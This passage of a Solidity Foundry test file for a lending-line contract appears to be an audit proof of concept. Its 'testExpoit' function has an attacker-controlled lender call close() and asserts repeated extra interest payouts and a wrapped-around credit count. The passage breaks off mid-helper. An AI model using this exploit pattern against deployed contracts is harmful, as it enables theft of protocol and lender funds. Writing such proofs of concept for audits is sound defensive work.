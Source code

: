            escrow.updateLine(address(line));
            spigot.updateOwner(address(line));
            
            assertEq(uint(line.init()), uint(LineLib.STATUS.ACTIVE));
    
            _mintAndApprove();
            escrow.enableCollateral( address(supportedToken1));
            escrow.enableCollateral( address(supportedToken2));
       
            vm.startPrank(borrower);
            escrow.addCollateral(1 ether, address(supportedToken2));
            vm.stopPrank();
        }
    
        function testExpoit() public {
            _addCredit(address(supportedToken1), 1 ether);
            bytes32 id = line.ids(0);
            vm.warp(line.deadline() - ttl / 2);
            line.accrueInterest();
            (uint256 deposit, , uint256 interestAccrued, , , , ) = line.credits(id);
            uint256 lenderBalanceBefore = supportedToken1.balanceOf(lender);
            uint256 lenderBalanceAfterExpected = lenderBalanceBefore + deposit + interestAccrued;
    
            Attacker(lender).enableAttack();
            hoax(lender);
            line.close(id);
            vm.stopPrank();
            uint256 lenderBalanceAfter = supportedToken1.balanceOf(lender);
            assertEq(lenderBalanceAfter, lenderBalanceAfterExpected + interestAccrued * ATTACK_COUNT);
            (uint256 count,) = line.counts();
            assertEq(count, MAX_INT - ATTACK_COUNT + 1);
        }
    
    
        function _mintAndApprove() internal {
            deal(lender, mintAmount);
    
            supportedToken1.mint(borrower, mintAmount);
            supportedToken1.mint(lender, mintAmount);
            supportedToken2.mint(borrower, mintAmount);
            supportedToken2.mint(lender, mintAmount);
            unsupportedToken.mint(borrower, mintAmount);
            unsupportedToken.mint(lender, mintAmount);
    
            vm.startPrank(borrower);
            supportedToken1.approve(address(escrow), MAX_INT);
            supportedToken1.approve(address(line), MAX_INT);
            supportedToken2.approve(address(escrow), MAX_INT);
            supportedToken2.approve(address(line), MAX_INT);
            unsupportedToken.approve(address(escrow), MAX_INT);
            unsupportedToken.approve(address(line), MAX_INT);
            vm.stopPrank();
    
            vm.startPrank(lender);
            supportedToken1.approve(address(escrow), MAX_INT);
            supportedToken1.approve(address(line), MAX_INT);
